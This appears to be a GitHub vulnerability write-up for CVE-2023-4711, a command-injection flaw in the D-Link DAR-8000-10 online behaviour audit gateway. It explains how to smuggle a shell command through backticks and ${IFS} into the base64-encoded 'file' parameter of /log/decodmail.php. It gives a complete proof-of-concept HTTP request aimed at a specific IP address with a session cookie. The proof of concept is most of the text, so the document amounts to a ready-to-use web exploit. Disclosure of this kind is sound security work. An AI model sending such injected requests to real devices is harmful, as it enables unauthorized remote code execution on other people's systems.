 # CVE-2023-4711

The D-LINK-DAR-8000-10 Online behavior audit gateway has rce vulnerabilities

official website:http://www.dlink.com.cn/

version:D-LINK  DAR-8000-10

See the login page.

![WPS图片(1)](https://github.com/TinkAnet/cve/assets/118334129/8a348409-d318-414f-9e80-a0cf25c01d13)

Construct the file parameter /etc/' sleep${IFS}10 '.pcap, and then use base64 encode to construct the file parameter, and successfully execute the system command

POC
```
GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA== HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=25b739a8fcf3db5555845ffce2251be5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
![WPS图片(2)](https://github.com/TinkAnet/cve/assets/118334129/cbb9dc67-e3b9-4fe1-bbef-7dbcfada98d9)

